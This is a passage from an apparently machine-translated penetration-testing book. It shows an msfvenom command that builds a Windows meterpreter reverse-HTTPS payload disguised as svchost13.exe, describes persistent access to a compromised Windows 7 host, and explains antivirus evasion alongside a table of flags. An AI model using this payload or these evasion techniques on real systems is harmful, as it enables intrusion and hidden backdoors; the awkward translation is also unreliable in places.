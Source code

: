 ![](img/e1b49e7f-fac4-48f5-9702-2df3bcf23a15.png)

我们现在已连接到被黑客攻击的 Windows 7 计算机，并具有完全的管理员访问权限，该漏洞将在每天下午 5:00 准备好使用，而不会对网络进行任何进一步的攻击。

警告
真正的攻击者会将 Ncat 的名称更改为文件系统中更模糊、更难发现的名称。小心两个`calc.exe`或`notepad.exe`生活在你的系统中。一个在一个陌生的地方很可能是 Ncat 或其他类型的开发，如我们下一步要建立的。

# 用 Metasploit 给家里打电话

那是老派的方法。现在，让我们使用 Metasploit 的工具做同样的事情。我们将在我们邪恶的服务器`//rogue3`上加载 Metasploit，让我们的受害者机器连接到该机器上的仪表外壳。我们将从早期的内部黑客中构建并上传此漏洞。除了`msfconsole`之外，我们还将使用 Metasploit 工具包中的一些其他工具。Metasploit 附带一个独立的应用程序，用于构建自定义漏洞利用和外壳代码。这个工具叫做`msfvenom`，我们将使用它来构建一个漏洞。`msfvenom`的充分使用本身可能是一个完整的章节，超出了本书的范围，因此我们将在这里使用最常见的标志构建一个反向 HTTP 漏洞，以生成我们的可执行文件。我们将通过运行以下命令来构建该漏洞：

```
msfvenom -a x86 -platform windows -p windows/meterpreter/reverse_https -f exe -o svchost13.exe  
```

MSFvenom 是一个功能强大且可配置的工具。MSFvenom 有能力构建自定义漏洞攻击，从而绕过任何防病毒软件。防病毒软件通过查看文件的签名来工作。MSFvenom 有能力对漏洞进行编码，因为这种漏洞是防病毒软件无法检测到的。这是一种隐藏利用漏洞的情况，因为另一个常见的可执行文件（如记事本 MSFvenom）可以向可执行文件添加 NOPs 或空代码，使其达到与原始文件相同的大小。很可怕，不是吗？

下表显示了标志列表：

| 用法： |
| `/opt/metasploit/apps/pro/msf3/msfvenom [options] <var=val>` |
| **选项** | **多头期权** | **变量** | **评论** |
| `-p` | `--payload` | `<payload>` | 要使用的有效载荷。指定一个`-`或`stdin`来使用自定义有效载荷 |
| `-l` | `--list` | `[module_type]` | 列出模块类型示例：有效载荷、编码器、NOP、所有 |
| `-n` | `--nopsled` | `<length>` | 将[length]大小的 NoPled 预先添加到有效负载上 |
| `-f` | `--format` | `<format>` | 输出格式（列表使用`--help-formats`） |
| `-e` | `--encoder` |  | 要使用的编码器 |
| `-a` | `--arch` | `<architecture>` | 要使用的体系结构 |
|  | `--platform` | `<platform>` | 有效载荷的平台 |
| `-s` | `--space` | `<length>` | 生成的有效负载的最大大小 |
| `-b` | `--bad-chars` | `<list>` | 要避免的字符列表；示例：`\x00\xff` |
| `-i` | `--iterations` | `<count>` | 对有效负载进行编码的次数 |
| `-c` | `--add-code` | `<path>` | 指定要包含的其他 win32 外壳代码文件 |
| `-x` | `--template` | `<path>` | 指定要用作模板的自定义可执行文件 |
| `-k` | `--keep` |  | 保留模板行为并将负载作为新线程注入 |
| `-o` | `--options` |  | 列出有效负载的标准选项 |